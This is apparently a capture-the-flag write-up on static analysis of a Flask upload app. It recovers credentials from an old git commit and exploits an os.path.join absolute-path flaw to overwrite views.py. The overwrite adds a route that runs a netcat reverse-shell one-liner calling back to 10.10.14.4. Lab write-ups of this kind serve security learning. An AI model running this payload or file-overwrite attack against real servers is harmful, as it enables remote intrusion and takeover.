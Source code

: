 ## Static code analyses
Download the zip file containing the source code and unzip it. There a couple of interesting things:
- 1: The source code has a `.git` directory indicating some form of version control
- 2: There is a vulnerability in the source code for overwriting files on the web app's server
### 1: Credentials via version control
Use a desktop version control app to look at the source code. After doing some poking around, find some credentials present in an old commit.
![[Pasted image 20220909140622.png]]
`dev01:Soulless_Developer#2022`
### 2: Reverse shell via file overwriting
Do some poking around in the application's source code and find the `views.py` file, which drives the upcloud application.
- The interesting function here is upload_file()
```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app

[TRUNCATED]

@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


[TRUNCATED]
```
- This function will save the uploaded file to a path that uses the raw, unsanitized file name.
- Funny enough, if the path.join function from python's os module sees an absolute path for the last parameter, it will only use the last parameter.
```python
# e.g. 
file_name = 'some_path'
os.path.join("public", "uploads", file_name) -> public/uploads/some_path

file_name = '/some_path'
os.path.join("public", "uploads", file_name) -> /some_path
```
I can use this vulnerability along with my knowledge of how the web app's files are arranged (thanks to the source code) to overwrite `views.py`
I add this function to the bottom of `views.py`:
```python
@app.route('/unique_thing')
def thing():
        os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9001 >/tmp/f")
            return render_template('index.html')
```
This will give a reverse shell when I navigate to `/unique_thing`